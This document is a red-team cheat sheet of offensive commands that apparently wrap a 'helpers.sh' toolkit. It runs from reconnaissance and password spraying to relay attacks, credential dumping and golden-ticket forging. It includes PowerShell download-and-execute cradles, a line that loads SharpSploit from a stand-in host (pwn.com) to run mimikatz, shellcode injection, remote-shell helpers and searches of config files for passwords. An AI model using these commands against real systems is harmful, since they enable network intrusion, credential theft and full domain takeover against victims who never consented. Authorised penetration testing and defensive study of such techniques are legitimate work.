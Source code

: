## Cheat sheet using "helpers.sh" and other scripts/snippets:

### A. outside

#### 1. online content
	 harvestData target.com
	 googleSearch target.com "employee data filetype:pdf"
	 cewlHarvestData https://target.com/page.aspx

#### 2. dns enumeration
	 getIPAddress target.com
	 digDump 10.10.10.1
	 whoisARIN 10.10.10.1
	 dnsRecon target.com ns.target.com
	 dnsReconReverseIP target.com ns.target.com 10.10.10.0/24
	 harvestData target.com

#### 3. ping sweep
	 pingSweep 10.10.10.1
	 pingSweeps hosts.txt
	 pingSweepCIDR 10.10.10.0/24

#### 4. port scans
	 serviceScan hosts.txt
	 fullTCPScan 10.10.10.1
	 quickUDPScan 10.10.10.1

#### 5. fingerprinting
	 fingerPrintHTTPHeaders hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 scanSMBSettings hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 fingerPrintHTTPHeader target.com

#### 6. check cves
	 searchsploit exploit|grep remote
	 googleSearch github.com "CVE-2020-XXXX"

#### 7. manual enumeration
	 dirb https://target.com/ /seclists/common.txt -X .aspx, .asmx, .svc
	 wfuzz -w wordlist/general/common.txt http://target.com/FUZZ
	 python cve-2020-XXXX_checker.py target.com

#### 8. exploit
	 sprayHTTP target.com target.local usernames.txt Summer2020
	 rulerCheck user.name@target.local	 
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(new-object net.webclient).downloadstring('...')
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(iwr http://'...')
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(gc ....txt|out-string)

### B. inside

#### 1. broadcasts
	 dnsBroadcastDiscovery
	 dhcpBroadcastScan
	 respondRelay
	 tcpdump -lnv -i eth0 icmp

#### 2. dns enumeration
	 getIPAddress target.local dc.target.local
	 digDump dc.target.local
	 dnsRecon target.local dc.target.local
	 dnsReconReverseIP target.local dc.target.local 10.10.10.0/24

#### 3. ping sweep
	 pingSweep 10.10.10.1
	 pingSweeps hosts.txt
	 pingSweepCIDR 10.10.10.0/24

#### 4. port scans
	 serviceScans hosts.txt
	 serviceScan 10.10.10.1
	 fullTCPScan 10.10.10.1
	 quickUDPScan 10.10.10.1

#### 5. fingerprinting
	 serviceFingerprintScan 10.10.10.1
	 fingerPrintHTTPHeaders hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 scanSMBSettings hosts.txt
	 fingerPrintSMBHTTP hosts.txt
	 fingerPrintHTTPHeader target.com

#### 6. rpc enumeration
	 getRPCUserInfo 10.10.10.1
	 getRPCPWInfo 10.10.10.1
	 checkRPCPrintSpool 10.10.10.1
	 getInterfaces 10.10.10.1

#### 7. dumps
	 dumpRPC 10.10.10.1
	 dumpSAMR 10.10.10.1

#### 6. check cves
	 searchsploit exploit|grep remote
	 googleSearch github.com "CVE-2020-XXXX"

#### 7. manual enumeration
	 dirb https://sp.target.local/ /common.txt -X .aspx, .asmx
	 wfuzz -w wordlist/general/common.txt http://web.target.local/FUZZ
	 python cve-2020-XXXX_checker.py target.local

#### 8. exploit	 
	 spraySMB target.com target.local usernames.txt Summer2020	 
	 implantShellcode
	 # start /b powershell.exe -exec bypass -noninteractive -c iex(new-object net.webclient).downloadstring('...')
	 # iex(new-object net.webclient).downloadstring('...');

### C. local

#### 1. enum
	 # seatbelt -user
	 # invoke-hostenum
	 # invoke-allchecks
	 # invoke-sharefinder
	 # invoke-edrchecker
	 # invoke-bloodhound -domain target.local
	 # $boxes=get-netcomputer -domain target.local -fulldata
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("configuration/appSettings/add")}
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("/configuration/connectionStrings/add")}
	 # gci -file -filter *.config -recurse -path x:\ |%{([xml](gc $_.fullname)).selectnodes("/configuration/system.web/machineKey")}
	 # $boxes|%{$_|add-member -membertype noteproperty -name ipaddress -value (get-ipaddress $_.dnshostname).ipaddress -force};
	 # $boxes|%{$_|add-member -membertype noteproperty -name shares -value (invoke-sharefinder -computername $_.dnshostname -excludestandard -checkshareaccess) -force};
	 # foreach($item in $shares){$share,$desc=$item -split ' ',2;gci -file -filter *.config -path "$share"|%{([xml](gc $_.fullname)).selectnodes("configuration/appSettings/add")|where key -match pass}}

#### 2. privesc
	 # invoke-kerberoast -domain target.local -outputformat hashcat|select hash
	 # invoke-tokenmanipulation -createprocess "cmd.exe" -username "target.local/user.name" processargs "/c whoami"";
	 # invoke-binary rubeus.exe triage
	 # invoke-binary rubeus.exe dump
	 # invoke-binary internalmonologue.exe
	 # sweetpotato.exe -c 4991d34b-xxx-xxx-xxx-xxx -p cmd.exe -a "/c whoami" -l 65535
	 # dll-loader -http -path http://pwn.com/sharpsploit.dll; [sharpsploit.credentials.mimikatz]::logonpasswords();
	 # inject-shellcode -shellcode $buf -parentid 4502 -queueuserapc	 
	 # invoke-inveigh -http n
	 # invoke-inveighrelay -target target.local -command "whoami"
	 # invoke-socksproxy -port 65535
	 # make immutable:
	 # chattr +i /path/to/filename
	 # chattr +i /etc/shadow
	 # lsattr /etc/shadow
	 # remove immutable:
	 # chattr -i /etc/shadow
	 # lsattr /etc/shadow

### D. network 	

#### 1. lateral
     getSPNs target.local
	 crackSPNs spns.txt passwords.txt
	 respondRelay
	 ntlmRelay hosts.txt
	 smbRelay target.local
	 localProxy
	 portForward 65535 127.0.0.1 10.10.10.1 65535
	 socksProxy 127.0.0.1 65535 root 10.10.10.1
	 localHTTPTunnel 127.0.0.1 65535 http://target.com/george.aspx	 
	 pyinstaller.exe -onefile socks.py
	 dropImplant target.local
	 wmiShell target.local
	 winRMShell target.local
	 smbShell target.local
	 getUser admin.user
	 getComputer dc.target.local
	 getUsers target.local
	 getFullComputers target.local
	 getShares target.local
	 mountShare target.local e\$ 
	 find ./ type -f -name "*web*.config"
	 grep -rnw "password" 

#### 2. escalation
	 getLoggedOn target.local
	 getSessions target.local
	 dumpSAM target.local
	 huntUser admin.user
	 getDelegation target.local
	 addSPNDNS host/pwn-target.local dc.target.local
	 addDNS 10.10.10.1 pwn-target.local dc.target.local
	 ntlmRelayDelegate box.local target.local 10.10.10.1
	 krbRelayUser target.local user.name Summer2020
	 krbRelayUser AES256XXXX
	 printerRelay dc.target.local pwn-target.local
	 krbExportTGT dc.target.local_krbtgt.ccache
	 dumpSIDs dc.target.local
	 getGoldTicket AES256XXXX S-1-5-21-XXXX target.local pwn.user
	 dumpDCOnlyTGT dc.target.local
	 searchsploit "privesc"|grep local
	 googleSearch github.com "privesc CVE-2020-XXXX"
